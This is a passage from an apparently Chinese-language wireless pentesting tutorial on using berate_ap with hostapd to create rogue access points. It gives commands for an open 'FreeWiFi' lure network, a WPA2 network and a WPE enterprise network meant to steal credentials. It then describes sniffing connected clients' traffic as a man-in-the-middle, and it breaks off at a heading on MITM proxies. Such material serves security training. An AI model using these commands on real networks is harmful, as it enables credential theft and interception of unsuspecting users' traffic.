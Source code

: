 在安装了 hostapd 之后，我们可以下载 berate_ap。

```
git clone https://github.com/sensepost/berate_ap
```

berate_ap 的用法真的很简单。例如，如果我们想要创建一个开放的 WiFi 网络并共享我们的互联网连接，我们只需启动:

```
sudo ./berate_ap wlan0 eth0 FreeWiFi
```

考虑到 wlan0 是我们的广播天线，eth0 是连接互联网的天线。如果您使用两根 WiFi 天线，您可能要启动的命令是:

```
sudo ./berate_ap wlan1 wlan0 FreeWiFi
```

记得使用 ip a 或 ifconfig 命令检查天线的名称。如果一切顺利，你应该看起来像下面这样。

![](img/73967fd68fe74039651f2de4835652da.png)

使用 berate_ap 的其他可能性有:

*   建立 WPA2-PSK 网络

```
sudo ./berate_ap wlan0 eth0 *AccessPointName* *WiFiPassPhrase*
```

*   建立一个 WPE 网络并窃取凭证

```
sudo ./berate_ap --eap --mana-wpe wlan0 eth0 *EnterpriseNetwork*
```

您可以在 [berate_ap GitHub](https://github.com/sensepost/berate_ap) 中查看更多可能的配置，但是提供一个开放的 WiFi 网络会增加有人连接到我们网络的可能性，从而将这变成一个 MITM 场景。现在，我们可以启动或首选网络嗅探器，如 Wireshark，并开始查看客户端流量。但另一件事，我总是喜欢做的是涉及一个代理，以便能够执行更多的攻击，如注入或修改流量。

# MITM 代理
